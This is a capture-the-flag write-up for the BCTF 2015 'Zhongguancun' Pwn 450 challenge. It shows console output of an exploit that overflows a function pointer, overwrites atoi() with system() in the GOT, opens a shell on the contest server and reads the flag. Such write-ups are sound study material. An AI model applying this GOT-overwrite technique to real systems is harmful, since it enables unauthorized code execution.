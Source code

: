 ## BCTF 2015 - Zhongguancun (Pwn 450)
##### 21-23/03/2015 (48hr)
___

### Description: 
```
nc 146.148.60.107 6666
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!
```
___
A detailed solution is within the exploit file.

```
ispo@xrysa4 ~/bctf $ python zhongguancun_exploit.py 
 **** PHASE 1: registering items ****
 **** PHASE 2: overflowing function pointer ****
 **** PHASE 3: tampering money pointer ****
 **** PHASE 4: changing atoi() to system() in GOT ****
	system 0x0003ada0	atoi 0x0002d160
	atoi - price*buy = 0x00df1160
 **** PHASE 5: triggering system() ****
 **** PHASE 6: opening shell ****
whoami 
	zhongguancun
pwd
	/home/zhongguancun
ls -la
	total 44
	drwxr-x--- 3 root zhongguancun  4096 Mar 21 01:29 .
	drwxr-xr-x 3 root root          4096 Mar 21 01:28 ..
	-rw-r--r-- 1 root zhongguancun    21 Jun 11  2014 .bash_logout
	-rw-r--r-- 1 root zhongguancun    57 Jun 11  2014 .bash_profile
	-rw-r--r-- 1 root zhongguancun   141 Jun 11  2014 .bashrc
	drwxr-xr-x 2 root zhongguancun  4096 Mar 21 01:28 apps
	-r--r----- 1 root zhongguancun    50 Mar 21 01:27 flag
	-rwxr-x--- 1 root zhongguancun 14132 Mar 20 14:08 zhongguancun
cat flag
	BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}
exit
```
Flag is **BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}**
___
